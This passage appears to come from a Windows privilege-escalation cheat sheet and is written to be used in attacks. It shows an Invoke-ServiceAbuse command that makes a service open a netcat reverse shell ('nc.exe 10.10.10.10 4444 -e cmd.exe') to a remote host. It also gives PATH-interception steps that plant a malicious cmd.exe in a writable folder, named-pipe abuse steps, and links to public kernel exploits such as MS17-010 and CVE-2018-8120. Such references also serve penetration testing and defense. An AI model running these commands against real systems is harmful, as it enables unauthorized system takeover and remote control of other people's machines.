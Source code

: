     # automatic exploit
    Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
    ```
    

### Example

For `C:\Program Files\something\legit.exe`, Windows will try the following paths first: - `C:\Program.exe` - `C:\Program Files.exe`

## EoP - $PATH Interception

Requirements: - PATH contains a writeable folder with low privileges. - The writeable folder is _before_ the folder that contains the legitimate binary.

EXAMPLE:

```
# List contents of the PATH environment variable
# EXAMPLE OUTPUT: C:\Program Files\nodejs\;C:\WINDOWS\system32
$env:Path

# See permissions of the target folder
# EXAMPLE OUTPUT: BUILTIN\Users: GR,GW
icacls.exe "C:\Program Files\nodejs\"

# Place our evil-file in that folder.
copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
```

Because (in this example) "C:\Program Files\nodejs\" is _before_ "C:\WINDOWS\system32\" on the PATH variable, the next time the user runs "cmd.exe", our evil version in the nodejs folder will run, instead of the legitimate one in the system32 folder.

## EoP - Named Pipes

1. Find named pipes: `[System.IO.Directory]::GetFiles("\\.\pipe\")`
2. Check named pipes DACL: `pipesec.exe <named_pipe>`
3. Reverse engineering software
4. Send data throught the named pipe : `program.exe >\\.\pipe\StdOutPipe 2>\\.\pipe\StdErrPipe`

## EoP - Kernel Exploitation

List of exploits kernel : [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

##### #Security Bulletin   #KB     #Description    #Operating System

- [MS17-017](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-017) 　[KB4013081]　　[GDI Palette Objects Local Privilege Escalation]　　(windows 7/8)
- [CVE-2017-8464](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-8464) 　[LNK Remote Code Execution Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2017-0213](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213) 　[Windows COM Elevation of Privilege Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2018-0833](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-0833) [SMBv3 Null Pointer Dereference Denial of Service] (Windows 8.1/Server 2012 R2)
- [CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120) [Win32k Elevation of Privilege Vulnerability] (Windows 7 SP1/2008 SP2,2008 R2 SP1)
- [MS17-010](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010) 　[KB4013389]　　[Windows Kernel Mode Drivers]　　(windows 7/2008/2003/XP)
- [MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135) 　[KB3199135]　　[Windows Kernel Mode Drivers]　　(2016)